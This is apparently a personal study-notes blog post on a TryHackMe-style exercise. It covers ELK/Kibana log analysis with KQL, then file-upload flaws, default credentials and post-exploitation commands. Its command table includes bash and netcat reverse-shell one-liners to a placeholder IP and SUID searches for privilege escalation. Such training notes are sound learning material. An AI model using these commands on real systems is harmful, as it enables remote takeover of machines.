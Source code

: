 ```yaml
---
title: Post 63 - Twice in three days
date: 2024-12-07
tags:
    - log analysis
    - elastic
    - elk
    - kql
    - rce
---
```

## Task 9, Day 3 `Log analysis` Even if I wanted to go, their vulnerabilities wouldn't allow it.
### Operation Blue
Log analysis is crucial to blue-team work.  
  ELK: Elasticsearch, Logstash, and Kirbana  

ELK combines data analytics and processing tools to make log analysis manageable. Forms dedicated stack to aggregate logs from multiple sources into central place. Today starts with Kibana Discover interface.  
- Index pattern: Collection of logs. Could be from single host or multiple hosts with similar purpose, i.e. web servers.  
- KQL: Kibana Query Language - Language for searching documents for values. Semi-similar to Splunks SPL (Search Processing Language).

| Query/Syntax | Description | Example |
| :---: | :---: | :---: |
| " " | Search for specific values. **Exact** search. | "TryHackMe" |
| ** | Wildcard for similar matches to value provided | United** (returns United Kingdom and United States) |
| OR | Shows documents that contain **either** value provided | "United Kingdom" OR "England" |
| AND | Shows documents that contain **both** values provided | "Ben" AND "25" |
| : | Search a specific field in the document. Field availability depends on fields available in document. | ip.address: 10.10.10.10 |

Can filter out noise by selecting/unselecting certain fields. Adding fields just applies correct KQL syntax through GUI. Can also filter specific values in fields by clicking field in left pane and adding/removing with `+/-`. Can click and drag on timeline to select time covered in search. 

### Operation Red
#### Unrestricted File Uploads
Without the website confirming things like file type, size, file contents it can open door for attacks on webserver.  
- RCE: Uploading a script that the server runs giving control to the attacker.  
- XSS: Uploading HTML file containing XSS code to steal a cookie and send it back to attacker's server.  

#### Usage of Weak Credentials
One of the easiest paths of attack is weak or default creds. Common weak.default creds attacker might try:

| Username | Password |
| :---: | :---: |
| admin | admin |
| administrator | administrator |
| admin@domainname | admin |
| guest | guest |

#### RCE and Web Shells
Post vulnerability exploitation commands to try:

| Command | Use |
| :---: | :---: |
| ls | Gives idea of files and directories around you |
| cat | Outputs contents of documents like text files |
| pwd | Gives idea of where in system you are |
| whoami | Lets you know who you are |
| hostname | System name and potentially its role |
| uname -a | System info like OS, kernel version, etc. |
| id | Shows any groups current user is assigned to |
| ifconfig | Network setup info |
| bash -i >& /dev/tcp/<your-ip>/<port> 0>&1 | Begins reverse shell via bash |
| nc -e /bin/sh <your-ip> <port> | Begin reverse shell via Netcat |
| find / -perm -4000 -type f 2>/dev/null | Finds SUID files, useful for privesc |
| find / -writable -type f 2>/dev/null \| grep -v "/proc/" | Find files with writable permissions |

### The Task
Investigate attack in Kibana to answer blues questions, then recreate attack to answer red questions. Had to watch the end of the video to get my shell going.

### Recommended Stuff
Advanced ELK queries room(?).

